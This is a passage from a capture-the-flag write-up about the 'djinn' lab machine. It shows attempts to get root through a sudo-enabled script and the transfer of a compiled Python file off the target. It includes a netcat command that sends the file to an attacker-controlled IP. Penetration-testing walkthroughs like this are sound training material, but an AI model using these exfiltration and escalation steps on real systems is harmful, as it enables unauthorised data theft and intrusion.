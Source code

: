 I run the **lago** script with sudo permissions, but I can't find a way to get root. 

```console
sam@djinn:/home/sam$ sudo /root/lago
sudo /root/lago
What do you want to do ?
1 - Be naughty
2 - Guess the number
3 - Read some damn files
4 - Work
Enter your choice:2
2
Choose a number between 1 to 100: 
Enter your number: /bin/sh
/bin/sh
Better Luck next time
```

Listing in the sam's home directory, I found a compiled python file, execute it, and I can see that it's related to the lago script.

```console
sam@djinn:/home/sam$ ls -la
...
-rw-r--r-- 1 sam  sam    1749 Nov  7  2019 .pyc
...
```

```console
sam@djinn:/home/sam$ python .pyc
python .pyc
What do you want to do ?
1 - Be naughty
2 - Guess the number
3 - Read some damn files
4 - Work
Enter your choice: 1
1
Working on it!!
```

Then I transfer this script to my machine, for this we firt set up a netcat listener on the attacking machine as shown: 

```console
root@kali:~$ nc -vlnp 443 > pyc
listening on [any] 443 ...
```

And on the target machine we execute the following netcat command:

```console
sam@djinn:/home/sam$ nc 192.168.179.1 443 < .pyc
```

Ones downloaded the file, we'll try to decompile it to be able to read the code in plain text. For This we first need install the **decompyle3** utility and then decompile it, as shown below:
